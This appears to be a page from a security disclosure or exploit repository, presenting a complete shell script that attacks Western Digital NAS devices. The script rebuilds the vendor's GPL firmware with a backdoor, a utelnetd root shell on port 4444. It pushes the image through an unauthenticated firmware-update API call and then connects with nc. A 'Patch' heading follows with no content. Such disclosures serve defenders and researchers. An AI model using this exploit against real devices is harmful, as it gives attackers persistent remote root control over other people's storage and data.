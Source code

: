 ```shell
wget https://downloads.wdc.com/gpl/$FW_GPL.tar.gz
tar xf $FW_GPL.tar.gz
cd $FW_GPL/

echo "> 2: Modifying firmware version"
cd firmware/module
sed -i "s/$FW_VERSION/2.99.999/g" crfs/default/config.xml

echo "> 3: Creating backdoor in root filesystem"
cd crfs/bin
mv upnp_nas_device upnp_nas_device.old
cat <<'EOF' >> upnp_nas_device
#!/bin/sh
PS=`ps faux | grep utelnetd | grep -v grep`
if [ -z "$PS" ]; then
  utelnetd -d -l /bin/sh -p 4444
fi
EOF
chmod +x upnp_nas_device
cd ../../

echo "> 4: Building root filesystem (requires sudo to install lib32z1)"
sudo apt install lib32z1
./create_image.sh
sleep 0.5
rm ../merge/image.cfs
mv image.cfs ../merge/

echo "> 5: Building firmware image"
cd ../merge && ./merge

echo "> 6: Sending firmware update"
curl -vv -X POST -F 'file=@WD-NAS-firmware' "http://$RHOST/api/2.1/rest/firmware_update?auth_username=nobody&auth_password="

echo ""
echo "> 7: Now sit back and wait for Shelly, she takes around 3 minutes to arrive!"
while true; do 
  sleep 1
  nc $RHOST 4444 2>/dev/null
  if [ $? -eq 0 ]; then
    break
  else
    echo -n "."
  fi
done

echo "> Exploit finished"
```

## Patch
